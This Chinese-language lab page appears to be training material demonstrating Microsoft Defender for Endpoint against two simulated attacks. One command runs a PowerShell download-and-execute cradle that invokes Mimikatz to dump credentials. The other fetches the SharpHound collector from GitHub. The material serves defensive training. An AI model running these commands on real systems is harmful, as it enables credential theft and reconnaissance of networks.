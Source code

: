 # 模块 2 演示 - 使用 Microsoft Defender for Endpoint 缓解攻击

备注：能否成功完成本演示取决于是否完成[先决条件文档](00-prerequisites.md)中的所有步骤。

## 模拟攻击

在此任务中，你将运行两次模拟攻击，以探索 Microsoft Defender for Endpoint 的功能。

1. 如果尚未在浏览器中进入 Microsoft Defender XDR 门户，请转到 Microsoft Defender XDR (https://security.microsoft.com) 并以租户管理员身份登录。

你将使用 WIN1 上的 PowerShell 运行模拟攻击，以探索 Microsoft Defender for Endpoint 的功能******。

`Attack 1: Mimikatz - Credential Dumping`

1. 在 WIN1 计算机上，在搜索栏中键入“Command”，然后选择“以管理员身份运行”**********。

1. 在“管理员:**** 命令提示符”窗口中复制并粘贴以下命令，然后按 Enter 键运行****。

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. 应看到一条内容为“访问被拒绝”的消息，以及来自 `Microsoft Defender Antivirus, Windows Security Virus and threats protection` 的弹出消息，其中显示“发现威胁”****。

1. 通过键入“exit”并按 Enter 键，退出“管理员:**命令提示符”窗口**********。

`Attack 2: Bloodhound - Collection`

1. 在 WIN1 计算机上，在搜索栏中键入“PowerShell”，选择“Windows PowerShell”，然后选择“以管理员身份运行”**************。

1. 在“管理员:**** Windows PowerShell”窗口中复制并粘贴以下命令，然后按 Enter 键运行****。

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**注意：** 建议一次复制、粘贴和运行一个命令。 可以打开记事本并将命令复制到临时文件中以完成此操作**。 第一个命令在 Atomic Red Team 文件夹所在的同一文件夹中创建名为 ExternalPayloads 的文件夹****。 第二个命令从 BloodHound GitHub 存储库下载 SharpHound.ps1 文件，并将其保存在 ExternalPayloads 文件夹中******。

1. 应会看到来自 `Windows Security Virus and threats protection` 的弹出消息，其中显示“发现威胁”**。

1. 在“管理员:**** Windows PowerShell”窗口中复制并粘贴以下命令，然后按 Enter 键运行****。

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. 如果输出为“True”，则 Microsoft Defender 防病毒尚未删除恶意软件有效负载文件**。 如果输出为“False”，则 Microsoft Defender 防病毒已删除恶意软件有效负载文件**。 使用向上箭头键重复命令，直到输出为“False”**。

## 你已完成本演示
